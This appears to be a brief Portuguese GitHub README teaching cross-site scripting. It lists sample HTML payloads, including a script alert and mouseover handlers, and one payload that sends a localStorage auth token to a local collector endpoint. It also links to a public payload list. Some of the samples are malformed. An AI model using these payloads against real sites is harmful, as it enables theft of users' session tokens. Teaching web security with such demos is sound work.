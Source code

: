 # XSS-Exemplo
Exemplo de funmcionamento do ataque XSS

# Video explicando os conceitos

[![Watch the video](https://img.youtube.com/vi/HQUCYEr50wc/maxresdefault.jpg)](https://www.youtube.com/watch?v=HQUCYEr50wc)

# Iframe
`<iframe src="https://www.cristianoprogramador.com/">`

# Img
`<img src="1https://www.cristianoprogramador.com/img/profile.jpg">`

# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`

# Outros exeplos de como fazer esse ataque
[XSS Payload List](https://github.com/payloadbox/xss-payload-list)
